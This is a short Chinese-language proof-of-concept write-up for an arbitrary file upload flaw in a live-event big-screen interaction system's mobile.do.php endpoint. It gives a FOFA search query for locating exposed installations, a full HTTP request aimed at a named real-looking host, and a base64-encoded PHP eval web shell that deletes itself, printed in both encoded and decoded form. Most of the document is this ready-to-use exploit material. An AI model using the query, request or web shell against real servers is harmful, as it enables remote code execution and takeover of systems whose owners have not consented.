


### 现场活动大屏幕系统任意文件上传漏洞

#### 漏洞描述

> 金华迪加现场大屏互动系统mobile.do.php接口存在任意文件上传漏洞


#### fofa查询语句

`body="/wall/themes/meepo/assets/images/defaultbg.jpg" || title="现场活动大屏幕系统"`

#### 漏洞复现

漏洞数据包：

```http
 GET /mobile/mobile.do.php?action=msg_uploadimg HTTP/2
 Host: hudong.zhubo.tech
 Cookie: PHPSESSID=9dc1f0dva5ho93r2104sdso66q
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 Accept-Encoding: gzip, deflate, br
 Upgrade-Insecure-Requests: 1
 Sec-Fetch-Dest: document
 Sec-Fetch-Mode: navigate
 Sec-Fetch-Site: none
 Sec-Fetch-User: ?1
 Priority: u=0, i
 Te: trailers
 Content-Length: 56
 
 PD9waHAgQGV2YWwoJF9QT1NUWzFdKTt1bmxpbmsoX19GSUxFX18pOz8+
```

```php
<?php @eval($_POST[1]);unlink(__FILE__);?>
PD9waHAgQGV2YWwoJF9QT1NUWzFdKTt1bmxpbmsoX19GSUxFX18pOz8+
```





- 可以发现成功访问到并下载,说明存在该漏洞,只是对上传的文件做了`处理`(php给我去掉了)

